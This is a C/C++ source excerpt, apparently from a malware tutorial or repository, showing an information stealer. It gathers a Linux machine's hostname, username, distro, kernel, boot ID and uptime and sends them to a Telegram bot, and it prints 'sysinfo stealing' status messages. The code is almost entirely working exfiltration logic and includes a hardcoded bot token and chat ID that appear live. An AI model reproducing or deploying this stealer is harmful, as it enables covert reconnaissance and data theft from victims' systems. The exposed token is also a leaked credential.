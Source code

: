 ```cpp
    hostname[sizeof(hostname)-1] = '\0';
  }

  // username (effective user)
  struct passwd *pw = getpwuid(geteuid());
  if (pw && pw->pw_name) {
    strncpy(username, pw->pw_name, sizeof(username)-1);
  } else {
    const char *envu = getenv("USER");
    strncpy(username, envu ? envu : "N/A", sizeof(username)-1);
  }

  // distro pretty name
  if (read_os_pretty_name(distro, sizeof(distro)) != 0) {
    // fallback to /etc/issue first line (optional)
    if (read_first_line("/etc/issue", distro, sizeof(distro)) != 0) {
      strncpy(distro, "Unknown (no /etc/os-release)", sizeof(distro)-1);
    }
  }

  // boot id (stable per boot on many distros)
  if (read_first_line("/proc/sys/kernel/random/boot_id", boot_id, sizeof(boot_id)) != 0) {
    strncpy(boot_id, "N/A", sizeof(boot_id)-1);
  }

  // uptime
  format_uptime(uptime_h, sizeof(uptime_h));

  // compose message
  char msg[MSGSZ];
  snprintf(msg, sizeof(msg),
           "distro: %s\n"
           "kernel: %s %s\n"
           "machine: %s\n"
           "hostname: %s\n"
           "username: %s\n"
           "boot ID: %s\n"
           "uptime: %s\n",
           distro,
           u.sysname, u.release,
           u.machine,
           hostname,
           username,
           boot_id,
           uptime_h);

  // Telegram Bot details 
  const char* botToken = "7725786727:AAEuylKfQgTg5RBMeXwyk9qKhcV5kULP_po"; // replace with your bot token 
  const char* chatId = "5547299598"; // replace with your chat ID
  int rc = sendToTgBot(msg, botToken, chatId);
  if (rc == 0) {
    fprintf(stderr, "sysinfo successfully collected =^..^=\n");
    return 0;
  } else {
    fprintf(stderr, "sysinfo stealing failed: %d :(\n", rc);
    return 2;
  }
}
```
